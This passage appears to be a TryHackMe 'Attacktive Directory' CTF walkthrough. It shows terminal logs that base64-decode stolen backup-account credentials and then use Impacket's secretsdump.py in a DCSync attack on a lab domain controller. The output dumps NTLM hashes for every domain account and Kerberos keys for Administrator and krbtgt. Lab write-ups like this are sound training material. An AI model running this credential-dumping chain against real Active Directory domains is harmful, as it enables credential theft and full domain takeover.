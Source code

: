```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

6. Decoding the contents of the file, what is the full contents?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```

`backup@spookysec.local:backup2517860`

## Task 7 Elevating Privileges

**Introduction:**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

![](https://blog.spookysec.net/img/dcsync.png)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

1. What method allowed us to dump NTDS.DIT?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.225.245 spookysec.local/backup:backup2517860@10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:789c25228cf453618013bb1f19335794:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
```